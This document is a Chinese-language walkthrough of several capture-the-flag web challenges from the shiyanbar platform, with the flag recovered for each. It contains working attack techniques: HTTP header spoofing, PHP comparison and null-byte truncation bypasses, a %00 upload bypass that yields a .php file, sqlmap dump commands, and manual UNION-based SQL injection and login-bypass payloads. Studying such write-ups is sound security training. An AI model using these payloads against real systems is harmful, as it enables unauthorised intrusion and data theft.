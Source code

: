 ## 猫抓老鼠

检查请求头,发现 `content-row: MTU0Nzk5MTA1OQ==`
输入得到Flag: `KEY: #WWWnsf0cus_NET#`

## 头有点大

根据提示,抓包
伪造.NET 浏览器 国籍
修改为
```
GET /sHeader/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1/.NET CLR 9.9; Win64; x64; rv:64.0) Gecko/20100101 IE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
GO,得到Flag: The key is:HTTpH34der

## 貌似有点难

查看代码,发现要将IP伪装为1.1.1.1
在伪造IP后响应中提示还要伪造跳转网页
抓包
伪造IP 跳转网页
修改为
```
GET /phpaudit/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Forwarded-For: 1.1.1.1 ##IP
Referer: https://www.google.com  ##跳转网页
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
得到Flag: Key is SimCTF{daima_shengji}

## PHP大法
进入链接,看见源码
```php
<?php
if(eregi("hackerDJ",$_GET[id])) { #比较id和字符,如果相等返回true
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]); #对id进行url解密
if($_GET[id] == "hackerDJ") 如果id等于字符,得到Flag
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>


<br><br>
Can you authenticate to this website?
```
分析代码发现应对字符进行URL编码,但需要加密两次,因为浏览器会解密一次
网上的在线编码一般不会处理英文,用这个[网站](http://tool.bugku.com/safe/url.php)
GET 提交,得到 Flag: DUTCTF{PHP_is_the_best_program_language}

## what a fuck!这是什么鬼东西?

jother 编码 [这里](https://wps2015.org/drops/drops/jother%E7%BC%96%E7%A0%81%E4%B9%8B%E8%B0%9C.html)
直接在 Console( )里运行得到Flag : Ihatejs

## NSCTF web200

![](http://ctf5.shiyanbar.com/web/web200.jpg)

分析代码,密文首先被反转,再自增 1 
base64-encode 后再反转
ROT13 加密,得到密文 :
`a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws`

先逆转该过程就 OK 了

[ROT13 解密](http://www.mxcz.net/tools/rot13.aspx)得 : 

`n1mYotDfPRFRVdEYjhDNlZjYld2Y5IjOkdTN3EDNlhzM0gzZiFTZ2MjO4gjf`

翻转 :

`fjg4OjM2ZTFiZzg0MzhlNDE3NTdkOjI5Y2dlYjZlNDhjYEdVRFRPfDtoYm1n`

base64-decode : 
```
~88:36e1bg8438e41757d:29cgeb6e48c`GUDTO|;hbmg
```
自减 1 后翻转得 :

 `flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}`

## FALSE

查看源码:
```php
<?php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
    echo '<p>Login first!</p>';
?>
```
发现需要构造 str1!=str2 并且两串的 sha1 值相等
直接构造肯定不现实
根据题目提示,应构造两者的返回值为 false, 即 false===false
sha1 与 MD5 都不能处理数组,所以我们构造两个数组 GET 提交
得到Flag : CTF{t3st_th3_Sha1}

## Guess Next Session
查看提示代码:
```php
<?php
session_start(); 
if (isset ($_GET['password'])) {
    if ($_GET['password'] == $_SESSION['password'])
        die ('Flag: '.$flag);
    else
        print '<p>Wrong guess.</p>';
}

mt_srand((microtime() ^ rand(1, 10000)) % rand(1, 10000) + rand(1, 10000));
?>
```
分析代码,发现上面的随机数只是个坑,应该满足条件`$_GET['password']  ==  $_SESSION['password']`
Burp 抓包,将 Cookie 删除,并将 password 置为空 
GO 得到Flag : CTF{Cl3ar_th3_S3ss1on}

## Once More
查看代码 : 
```php
<?php
if (isset ($_GET['password'])) {
	if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
	{
		echo '<p>You password must be alphanumeric</p>';
	}
	else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
	{
		if (strpos ($_GET['password'], '*-*') !== FALSE)
		{
			die('Flag: ' . $flag);
		}
		else
		{
			echo('<p>*-* have not been found</p>');
		}
	}
	else
	{
		echo '<p>Invalid password</p>';
	}
}
?>
```
发现需要提交一个长度小于8,值大于99999999的数字,并且能从中找到`*-*`字符
前两个条件加题干不难想到科学计数法,关键是ereg函数的审计和字符
这里可以使用%00截断,ereg函数会从%00处停止验证
GET 提交 `password=9e9%00*-*` 得到 Flag : `CTF{Ch3ck_anD_Ch3ck}`
**注意%会被URL编码成%25,有点坑**
## 上传绕过

没有 js,推测为%00上传绕过 
Burp 抓包,在路径上添加 `1.php+`,将 `+` 的 Hex 值改为00,GO 
浏览器会自动略去 `+` 及后面的字符,上传的文件名就会变成 `1.php`
得到Flag : `flag{SimCTF_huachuan}`
## 看起来有点简单!
Sql 注入题,直接用 Sqlmap 就能搞定

1. `--current-db` 发现库名为 my_db
2. `-D my_db --tables` 发现表名为 thiskey
3. `-D my_db -T thiskey --columns` 发现字段名为 k0y
4. `-D my_db -T thiskey -C k0y --dump` 得到Flag :  whatiMyD91dump

手工注入: 

1. `id=1'` 报错发现数据库类型为 MySQL 
2. `id=1 and 1=1` 与 `id=1 and 1=2` 回显不同,判断存在注入点
3. `id=1 order by 1` 3 的时候报错,说明字段数为 2
4. `id=1 union select 1,schema_name  from information_schema.schemata` 查询数据库名称发现 my_db 和 test 两个数据库
5. `id=1 union select 1,table_name from information_schema.tables where table_schema=my_db` 查询数据库中的表名 thiskey
6. `id=1 union select 1,column_name from information_schema.columns where table_schema='my_db'` 查询表中字段名,发现 k0y
7. `id=1 union select 1,k0y from thiskey` 得到Flag : whatiMyD91dump

## 程序逻辑问题 
user=eren%27%20union%20select%20md5(123)#&pass=123
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTk1Njc3Njg0NiwtMTY5MjMyMzQ0MiwzMD
E1MThdfQ==
-->